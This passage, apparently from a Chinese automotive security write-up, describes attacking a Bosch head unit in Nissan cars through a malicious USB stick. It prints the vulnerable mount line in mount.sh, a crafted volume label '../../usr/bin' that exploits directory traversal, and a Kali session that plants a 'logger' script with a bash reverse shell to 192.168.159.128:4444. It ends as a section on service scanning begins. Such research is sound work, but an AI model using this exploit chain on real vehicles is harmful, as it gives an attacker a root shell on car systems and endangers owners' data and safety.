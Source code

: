 日产的 bosch 车机挂载恶意 U 盘的情况下，可以反弹 shell 到攻击者的服务器，存在问题的文件即 /etc/udev/scripts/mount.sh  
其中的挂载操作

```plain
result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
```

$mountdir 我们能够控制并且没有什么过滤操作，存在目录穿越漏洞  
所以构造的恶意 U 盘信息为

```plain
/etc# blkid /dev/sdb1
/dev/sdb1: LABEL="../../usr/bin" UUID="7cc162e8-93d7-1f44-bbd6-0d308f113468" TYPE="ext4"
```

在 U 盘目录下编写 logger 脚本来进行反弹 shell

```plain
root@kali:~/automotive# mount /dev/sdb1 /media/root/
root@kali:~/automotive# cd /media/root
root@kali:/media/root# cat logger
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.159.128/4444 0>&1
root@kali:/media/root# chmod +x logger
root@kali:/media/root# cd -
root@kali:~/automotive# umount /dev/sdb1
```

### 服务安全

针对车机内部的一些服务的扫描，包含但不限于以下

#### telnet

2016 年腾讯的科恩实验室在 blackhat 上针对特斯拉 Model S 进行攻击的时候，从车机 CID 打出去也用到了 Telnet 攻击，而我们仅仅需要用到 nmap 扫描

[![](assets/1701606748-384a77f9ff96e255175887734197711e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106200018-0db680c6-7c9c-1.png)
